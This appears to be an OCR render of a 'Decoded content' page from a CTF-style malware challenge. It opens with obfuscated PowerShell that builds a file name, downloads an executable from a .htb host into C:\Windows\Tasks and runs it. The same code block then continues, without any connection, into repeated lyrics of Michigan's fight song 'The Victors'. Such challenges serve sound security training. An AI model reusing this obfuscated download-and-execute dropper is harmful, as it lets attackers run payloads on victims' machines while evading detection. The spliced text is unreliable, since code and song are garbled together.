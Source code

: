 
**Decoded content**

```
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
Now for a cheer they are here,
triumphant!
Here they come with banners flying,
In stalwart step they're nighing,
With shouts of vict'ry crying,
We hurrah, hurrah, we greet you now,
Hail!

Far we their praises sing
For the glory and fame they've bro't us
Loud let the bells them ring
For here they come with banners flying
Far we their praises tell
For the glory and fame they've bro't us
Loud let the bells them ring
For here they come with banners flying
Here they come, Hurrah!

Hail! to the victors valiant
Hail! to the conqu'ring heroes
Hail! Hail! to Michigan
the leaders and best
Hail! to the victors valiant
Hail! to the conqu'ring heroes
Hail! Hail! to Michigan,
the champions of the West!

We cheer them again
We cheer and cheer again
For Michigan, we cheer for Michigan
We cheer with might and main
We cheer, cheer, cheer
With might and main we cheer!


Hail! to the victors valiant
Hail! to the conqu'ring heroes
Hail! Hail! to Michigan,
the champions of the West!
Now for a cheer they are here,
triumphant!
Here they come with banners flying,
In stalwart step they're nighing,
With shouts of vict'ry crying,
We hurrah, hurrah, we greet you now,
Hail!

Far we their praises sing
For the glory and fame they've bro't us
Loud let the bells them ring
For here they come with banners flying
Far we their praises tell
For the glory and fame they've bro't us
Loud let the bells them ring
For here they come with banners flying
```
